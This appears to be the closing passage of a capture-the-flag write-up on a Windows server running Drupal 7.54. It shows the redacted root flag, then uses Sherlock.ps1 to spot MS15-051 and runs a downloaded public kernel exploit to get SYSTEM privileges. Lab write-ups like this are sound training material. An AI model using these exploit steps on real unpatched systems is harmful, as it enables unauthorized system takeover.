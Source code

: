 ```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
<Redacted root flag>
```

## Post Exploitation
### Privilege Escalation by MS15-051
Using Sherlock.ps1 to scan for potential kernal exploits, we realize that the server might also be vulnerable to MS15-051.

```
Title      : ClientCopyImage Win32k
MSBulletin : MS15-051
CVEID      : 2015-1701, 2015-2433
Link       : https://www.exploit-db.com/exploits/37367/
VulnStatus : Appears Vulnerable
```

We can download the exploit from [here](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip). However since this server is a 64-bit Windows server, we will need to download the 64-bit version of the exploit from the zip file. 

Afterwards, we will transfer the exploit to the server and we can easily do our privilege escalation

```
PS C:\inetpub\drupal-7.54> ./ms15-051x64.exe "whoami"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 2160 created.
==============================
nt authority\system
PS C:\inetpub\drupal-7.54> 
```
